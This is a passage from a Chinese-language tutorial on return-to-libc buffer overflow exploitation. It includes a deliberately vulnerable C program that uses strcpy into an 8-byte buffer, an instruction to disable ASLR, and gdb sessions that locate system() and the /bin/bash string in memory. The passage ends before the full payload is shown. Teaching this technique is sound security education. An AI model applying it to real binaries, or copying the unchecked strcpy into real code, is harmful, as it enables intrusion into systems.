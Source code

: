 为了进行正确的system()函数调用，需要将栈变成下图的样子：

![](http://upload-images.jianshu.io/upload_images/2405665-d6d32d0111c60e21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
图4 改变栈

我们将使用漏洞缓冲区溢出，用system()函数的地址准备地重写这前保存的【ip】。

当存在漏洞的main()返回时，程序将返回到system()函数，程序进入system()并在标记为填充物之上的位置重构栈帧。

> 同样，我样需要关闭栈随机化ASLR

接下来我们写一个带有漏洞的程序作为演示：

```
/* filename:  retlibc.c */

#include <string.h>

int main(int argc, char *argv[]) {   
    char buf[8];
    strcpy(buf, argv[1]);
    return 0;
}
```

我们还需要以下关键的信息：

> 1.  libc函数system()的地址
> 2.  字符串/bin/sh的地址

通过gdb，我们很容易就能得到system()的地址：

```
gdb -q retlibc
Reading symbols from retlibc...done.
(gdb) start
Temporary breakpoint 1 at 0x804841e: file retlibc.c, line 6.
Starting program: /root/returnlibc/retlibc 

Temporary breakpoint 1, main (argc=1, argv=0xbffff704) at retlibc.c:6
6        strcpy(buf, argv[1]);
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e3e850 <__libc_system>
(gdb)
```

至于 /bin/sh 的地址我们可以利用保存在环境变量里的SHELL的值，亦是通过gdb找地址：

> 先用getenv找出SHELL的地址，然后在gdb里定位/bin/bash的地址

```
# getenv  SHELL
SHELL if located at 0xbffff873
# gdb  retlibc 
(gdb) x/8s 0xbffff873
0xbffff873:    "H_CLIENT=192.168.1.106 58246 22"
0xbffff893:    "SSH_TTY=/dev/pts/5"
0xbffff8a6:    "USER=root"
(gdb) x/8s 0xbffff860
0xbffff860:    "/bash"
0xbffff866:    "TERM=linux"
0xbffff871:    "SSH_CLIENT=192.168.1.106 58246 22"
0xbffff893:    "SSH_TTY=/dev/pts/5"
0xbffff8a6:    "USER=root"
(gdb) x/8s 0xbffff85c
0xbffff85c:    "/bin/bash"
0xbffff866:    "TERM=linux"
```
